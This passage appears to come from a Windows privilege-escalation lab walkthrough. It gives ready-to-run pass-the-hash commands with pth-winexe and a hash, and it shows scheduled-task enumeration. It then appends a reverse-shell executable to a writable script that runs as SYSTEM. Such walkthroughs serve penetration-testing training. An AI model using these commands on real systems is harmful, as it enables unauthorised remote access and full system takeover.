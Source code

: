 1. Extract the admin hash from the SAM in the previous step.
2. Use the hash with pth-winexe to spawn a command prompt:

```
# pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe
```

3. Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

```
# pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe
```

## <mark style="color:red;">Scheduled Tasks</mark>

List all scheduled tasks your user can see:

```
> schtasks /query /fo LIST /v
```

In PowerShell:

```
PS> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

1. In the C:\DevTools directory, there is a PowerShell script called “CleanUp.ps1”. View the script:

```
> type C:\DevTools\CleanUp.ps1
```

2. This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```
> C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

It appears we have the ability to write to this file.

3. Backup the script:

```
> copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

4. Start a listener on Kali.
5. Use echo to append a call to our reverse shell executable to the end of the script:

```
> echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

6. Wait for the scheduled task to run (it should run every minute) to complete the exploit.
